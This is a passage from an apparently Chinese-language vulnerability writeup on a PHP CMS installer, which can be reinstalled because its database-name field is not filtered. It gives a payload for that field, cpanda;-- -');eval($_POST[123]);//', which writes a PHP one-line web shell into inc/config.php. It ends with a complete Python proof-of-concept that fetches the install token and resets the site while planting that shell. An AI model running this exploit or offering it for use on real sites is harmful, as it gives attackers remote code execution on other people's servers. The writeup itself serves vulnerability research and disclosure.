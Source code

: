 ```
Step\_3.php：
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$\_SESSION\['token'\]= $token;


```

所以如果直接提交安装的参数会不能安装，因此需要按照步骤来进行重装。  
到这里如果知道数据库密码，那么重装不是问题了，一般重装都是可以直接拿 shell 的，看了下配置文件，果然：

![](https://www.cnpanda.net/usr/uploads/2017/12/1204375009.png)

而在创建数据库名的时候，这套 CMS 也是没有进行过滤的：

![](https://www.cnpanda.net/usr/uploads/2017/12/2469490187.png)

因此可以创建数据库名为

> cpanda;-- -');eval($\_POST\[123\]);//'

的 payload，直接写入一句话。

![](https://www.cnpanda.net/usr/uploads/2017/12/1715607732.png)

查看配置文件 inc/config.php

![](https://www.cnpanda.net/usr/uploads/2017/12/3423055566.png)  
已经成功插入一句话。所以直接连接就可以。也可以连接 install/index.php 因为这个文件是引用了 config.php 的。

![](https://www.cnpanda.net/usr/uploads/2017/12/3985679965.png)

所以综上，利用 POC 如下：

```
import requests
import cgi
from bs4 import BeautifulSoup

s = requests.Session()
url\_1 = 'http://127.0.0.1/install/index.php'
def get\_token(url\_1):
    data = {"step":"3"}
    request = s.post(url\_1,data=data)
    html = request.content
    soup = BeautifulSoup(html)
    token = soup.find('input', {'name': 'token'})\["value"\]
    return token
data\_1 = {"step":"5","token":get\_token(url\_1),"db\_host":"localhost","db\_user":"root","db\_pass":"root","db\_name":"panda;-- -');eval($\_POST\[123\]);//'","url":"http://localhost/","admin":"admin","adminpwd":"admin888","adminpwd2":"admin888"}
getResult = s.post(url\_1,data=data\_1)
print getResult.text
print "\\nOK!The CMS had reset!"
 

```
